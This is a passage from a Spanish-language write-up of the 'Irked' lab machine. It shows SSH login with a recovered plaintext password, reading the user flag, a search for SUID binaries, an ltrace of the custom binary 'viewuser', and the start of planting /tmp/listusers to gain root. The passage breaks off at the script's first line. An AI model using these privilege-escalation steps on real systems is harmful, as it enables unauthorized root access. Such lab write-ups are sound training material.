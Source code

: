 ```bash
Kab6h+m+bbp2J:HG
```
Parece la password del usuario `jmardov` probamos a conectarnos por ssh
```bash
# ssh djmardov@10.10.10.117                                                                                                                        5 ⚙
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ 
```
Pillamos la primera flag.txt
```bash
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59xxxxxxxx
```
Enumeramos el sistema
```bash
# Find / -perm -4000 -type f 2>/dev/null
/usr/bin/viewuser
```` 
Encontramos este binario personalizado nos lo descargamos a nuestra maquina para hacerle un `ltrace` para ver que esta haciendo
```bash
# ltrace ./viewuser     
__libc_start_main(0x5659e57d, 1, 0xfff934f4, 0x5659e600 <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                   = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                   = 37
system("who"pro      tty7         2021-08-05 09:37 (:0)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 0
setuid(0)                                                                                     = 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 32512
+++ exited (status 0) +++
```

# Escalada de privilegios a root
Tras ver el funcionamiento del binario con permisos SUID que podemos ejecutar, vemos que hace un setuid(0) y luego prueba a ejecutar un archivo almacenado en la ruta /tmp/ llamado listuser.
Como el archivo no existia le damos caña y lo creamos nosotros para que nos interprete los comandos que queramos cuando se ejecute el binario ./viewuser
```bash
djmardov@irked:/tmp$ ls
listusers  
-rwxr-xr-x 1 djmardov djmardov   49 Aug  5 11:49 listusers
```
Metemos dentro de listusers:
```bash
djmardov@irked:/tmp$ cat listusers 
#!/bin/bash
```